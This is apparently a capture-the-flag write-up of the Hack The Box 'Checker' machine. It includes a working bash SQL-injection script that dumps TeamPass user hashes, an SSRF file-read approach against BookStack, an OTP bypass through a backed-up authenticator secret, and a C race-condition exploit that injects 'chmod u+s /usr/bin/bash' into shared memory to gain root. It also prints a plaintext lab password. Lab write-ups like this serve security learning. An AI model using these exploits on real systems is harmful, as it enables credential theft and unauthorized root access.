# Enumeration

Let's start with an Nmap scan:

```bash
sudo nmap -sC -sV -T4 10.10.11.56
```

**Results:**

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-01 13:19 +00
Nmap scan report for checker.htb (10.10.11.56)
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd
|_http-title: 403 Forbidden
|_http-server-header: Apache
8080/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 403 Forbidden
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Port 80 - BookStack

Don't forget to add the host to your `/etc/hosts` file:

```bash
echo "10.10.11.56 checker.htb" | sudo tee -a /etc/hosts
```

Navigating to `http://checker.htb` reveals a login page for **BookStack**.



Examining the source code, we find that it's running **BookStack v23.10.2**.



A search for public exploits didn't yield any direct authentication bypasses, but there was an SSRF vulnerability that required authentication.

## Port 8080 - TeamPass

Navigating to `http://checker.htb:8080` shows another application: **TeamPass**.



I couldn't find the exact version, but searching for exploits led to an SQL injection vulnerability.

### Exploiting TeamPass SQLi

```bash
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```

```bash
./explTemaPass.sh http://checker.htb:8080/
```

**Output:**

```
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

of course i cant decrypt the admin password so we try bob



let's login

we can see there is two password saved
first for bookstack and the second for ssh



Bob's credentials allow access to TeamPass, where we find two stored passwords:
- **BookStack login**
- **SSH credentials**

## SSH Access - OTP Bypass

Attempting to SSH as `reader`:

```bash
ssh reader@10.10.11.56
```

The login requires an OTP verification code:



Checking BookStack, I find a section named **Linux Security**, containing articles. One describes a backup process using:



but anyway let's use the exploit SSRF we found previosly



from the first link i tried this exploit `` but it was nothing get reflected maybe its not our target

so i kept searching and i found the same company shared deep explanation of the exploit [fluidattack](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/)

from here they use exploit from `DownUnderCTF 2022`
i tried the [exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit) multiple times but it look like something missing

looking in how the script work we see it send this payload 



but we previosly tried the img payload and didnt work what if we try it here?



and it worked we can read the `/etc/passwd`

so let's try read the flag at `/home/reader/user.txt` neither work

maybe something missing, back to the verification code in ssh i found it use `.google_authenticator` file for secret code with we can use to get OTP and login

trying `/home/reader/.google_authenticator` not work

u remember the three articles in linux security in Bookstack we can see for `Basic Backup with cp` there is maybe backup there

the code used by the owner is

```bash
#!/bin/bash
SOURCE="/home"
DESTINATION="/backup/home_backup"

mkdir -p $DESTINATION
cp -r --remove-destination --no-preserve=mode,ownership $SOURCE $DESTINATION/
```

so if we try to read `/backup/home_bachup/home/reader/.google_authenticator` we can get the secret code

and it worked

now we can use [it-tools](https://it-tools.tech/otp-generator) to login via ssh

# Privilege Escalation

runing `sudo -l` we can see that we can run script at `/opt/hash-checker` as root



run the program u get



from the source code

```bash
#!/bin/bash
source `dirname $0`/.env
USER_NAME=$(/usr/bin/echo "$1" | /usr/bin/tr -dc '[:alnum:]')
/opt/hash-checker/check_leak "$USER_NAME"
```

the script is runing `check_leak` compiled code, so lets take it to our machine and run `ghidra` for reverese the code

in the main function after print the shared memory we can see there is sleep for 1s, this may be indicator for race condition



in `write_to_shm` we can see The shared memory segment is created with permissions 0x3b6 (equivalent to 0666 in octal), which means it is world-readable and writable



if we can take advantage of the writeable shared memory and the race condition we may force the program to set SUID in `/usr/bin/bash` so we can run as root, but how the shared memory got triggered?

after sleep the program call notify user and pass `sharedMemoryId` as argument



this line is our target



if we can escape the sql statement and run bash script we can append `/bin/bash -c 'chmod u+s /usr/bin/bash'`

so we have all this information let's start

1. our program should run `check-leak.sh` as root
2. read the line `Using the shared memory 0x550F4 as temp location`
3. get the id as int
4. attach to the memory and inject the code
5. after the 1 second the program will `notify_user` there where our payload will work

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <errno.h>

#define SHM_SIZE 1024
#define MAX_TRIES 100

// Given the key printed by the vulnerable program, we obtain the system's shared memory id
// then attempt to attach (with repeated tries) before writing our payload.
void inject_payload(unsigned int key) {
    int sys_shmid;
    int tries = 0;
    char *shmaddr = NULL;
    
    sys_shmid = shmget(key, SHM_SIZE, 0);
    if (sys_shmid == -1) {
        perror("[ERROR] shmget with key failed");
        return;
    }
    
    while (tries < MAX_TRIES) {
        shmaddr = shmat(sys_shmid, NULL, 0);
        if (shmaddr != (char *)-1) {
            break;
        }
        if (errno != EINVAL) {
            perror("[ERROR] shmat failed");
            return;
        }
        usleep(10000); // 10ms
        tries++;
    }
    if (shmaddr == (char *)-1) {
        fprintf(stderr, "[ERROR] Failed to attach after %d tries\n", MAX_TRIES);
        return;
    }
    printf("[DEBUG] Attached to shared memory at address: %p\n", (void*)shmaddr);
    
    char payload[SHM_SIZE];
    snprintf(payload, SHM_SIZE,
             "Leaked hash detected at 45-44-4444 > \"' ; /bin/bash -c 'chmod u+s /usr/bin/bash' # ");
    printf("[DEBUG] Injecting payload: %s\n", payload);
    
    strncpy(shmaddr, payload, SHM_SIZE - 1);
    shmaddr[SHM_SIZE - 1] = '\0';
    printf("[DEBUG] Payload injected into shared memory.\n");
    
    if (shmdt(shmaddr) == -1) {
        perror("[ERROR] shmdt failed");
    } else {
        printf("[DEBUG] Detached from shared memory.\n");
    }
}

int main(void) {
    FILE *fp;
    char buffer[1024];
    unsigned int key = 0;
    int injected = 0;
    
    // Run the vulnerable command with the sudo password automatically supplied.
    const char *cmd = "echo hiccup-publicly-genesis | sudo -S /opt/hash-checker/check-leak.sh bob";
    
    fp = popen(cmd, "r");
    if (!fp) {
        perror("[ERROR] popen failed");
        return 1;
    }
    
    while (fgets(buffer, sizeof(buffer), fp)) {
        printf("%s", buffer);
        if (!injected && strstr(buffer, "Using the shared memory") != NULL) {
            char *ptr = strstr(buffer, "0x");
            if (ptr) {
                key = (unsigned int)strtol(ptr, NULL, 16);
                printf("[DEBUG] Found shared memory key: 0x%X\n", key);
                inject_payload(key);
                injected = 1;
            }
        }
    }
    
    pclose(fp);
    return 0;
}
```

now run `/usr/bin/bash -p` and u are root

# Summary

1. **Enumeration:** Found **BookStack** on port 80 and **TeamPass** on port 8080.
2. **Exploitation:** Used **SQLi** to dump credentials from TeamPass.
3. **SSH Access:** Retrieved **Google Authenticator secret** from backups and bypassed OTP.
4. **Privilege Escalation:** Exploited **shared memory race condition** to gain root access.
